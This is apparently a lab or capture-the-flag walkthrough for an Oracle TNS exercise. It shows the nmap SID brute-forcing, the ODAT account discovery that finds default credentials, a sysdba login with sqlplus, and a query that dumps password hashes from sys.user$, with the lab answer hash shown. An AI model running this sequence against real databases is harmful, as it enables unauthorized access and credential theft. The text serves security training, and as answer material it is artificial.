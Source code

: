 # Oracle TNS

### Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 03:57 EST
Nmap scan report for 10.129.205.19 (10.129.205.19)
Host is up (0.28s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
| oracle-sid-brute: 
|_  XE
```

We can also use ODAT, usage example below: (this takes a long time to run, so be patient :/)

<pre class="language-bash"><code class="lang-bash"><strong>sudo odat all -s 10.129.205.19
</strong>sudo odat all -s 10.129.205.19 -d XE #for faster scan since we already know the sid
[+] Accounts found on 10.129.243.14:1521/sid:XE:  | Time: 00:28:32 
scott/tiger
</code></pre>

now to login into oracledb

```
sqlplus scott/tiger@10.129.243.14/XE
select * from user_role_privs;
```

Here, the user `scott` has no administrative privileges. However, we can try using this account to log in as the System Database Admin (`sysdba`), giving us higher privileges. This is possible when the user `scott` has the appropriate privileges typically granted by the database administrator or used by the administrator him/herself.

```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

```sql
select * from user_role_privs;
select name, password from sys.user$;
NAME                           PASSWORD
------------------------------ ------------------------------
DBSNMP                         E066D214D5421CCC
```
